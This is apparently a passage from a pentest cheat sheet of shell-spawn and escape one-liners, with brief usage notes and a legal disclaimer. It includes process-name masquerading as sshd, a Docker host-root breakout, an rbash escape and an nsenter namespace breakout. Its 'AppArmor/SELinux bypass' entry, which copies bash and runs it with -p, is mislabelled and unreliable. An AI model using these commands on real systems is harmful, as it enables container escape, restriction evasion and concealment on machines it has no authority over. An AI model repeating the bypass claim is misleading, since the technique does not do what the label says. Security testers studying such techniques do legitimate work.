 ### Memory-only shell spawn
```bash
exec -a /usr/sbin/sshd /bin/bash
```

### Container escape shell spawn
```bash
# Docker breakout example
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```

### Restricted shell escape
```bash
# From rbash
BASH_CMDS[a]=/bin/sh;a
```

### AppArmor/SELinux bypass
```bash
cp /bin/bash /tmp/bash && /tmp/bash -p
```

### No-file shell spawn
```bash
exec <(echo "echo 'Hello from memory!'")
```

### Network namespace breakout
```bash
nsenter --net=/var/run/netns/NAMESPACE /bin/bash
```

## Important Notes

1. Many of these techniques require specific permissions or environmental conditions
2. Some payloads may be blocked by security controls (AppArmor, SELinux, etc.)
3. Always test in controlled environments before production use
4. Consider using encrypted channels for sensitive operations
5. Modern systems often have protections against some of these techniques

**Legal Disclaimer**: Only use these techniques on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal.